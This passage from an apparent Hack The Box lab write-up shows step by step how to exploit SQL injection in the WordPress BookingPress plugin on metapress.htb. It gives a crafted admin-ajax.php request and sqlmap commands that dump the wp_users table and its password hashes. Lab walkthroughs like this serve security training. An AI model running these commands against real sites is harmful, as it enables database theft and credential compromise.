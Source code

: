 Edit the copied file and change the *total_service* value to any number, in our case we will put it as 1. Then remove the "Injection" part from the query so that the only thing that will be left is the following:
*action=bookingpress_front_get_category_services&_wpnonce=8181f9cfbb&category_id=33&total_service=1)*

The edited request file should look like this:

POST /wp-admin/admin-ajax.php HTTP/1.1\
Host: metapress.htb\
User-Agent: curl/7.87.0\
Accept: */*\
Content-Length: 185\
Content-Type: application/x-www-form-urlencoded\
Connection: close

action=bookingpress_front_get_category_services&_wpnonce=8181f9cfbb&category_id=33&total_service=1)

## Dumping Database using SQLMap (sqlmap)

Type the following command in the terminal to see if the parameter is injectable:

**Command:**\
*sqlmap -r bookingpress.req -p total_service --batch*

**Command Description:**\
* -r : Request file
* -p : Parameter
* --batch : Non-interactive session (do not ask for user input)

**Results:**\
The parameter is injectable.

We can now list the databases using the following command:

**Command:**\
*sqlmap -r bookingpress.req -p total_service --dbs*

**Results:**\
Tables: *blog* and *information_schema*

We look further into the blog database by writting the following command:

**Command:**\
*sqlmap -r bookingpress.req -p total_service -D blog --tables*

**Results:**\
We found an interesting table called *wp_users*

We look into the wp_users table by dumping it using the following command:

**Command:**\
*sqlmap -r bookingpress.req -p total_service -D blog -T wp_users --dump*

**Results:**\
We get two users that are interesting, *manager* and *admin*. We also get their corresponding hash.

![image](https://user-images.githubusercontent.com/85443537/226912431-c5ecffff-6fca-454b-a372-8a9ac0e7a6df.png)
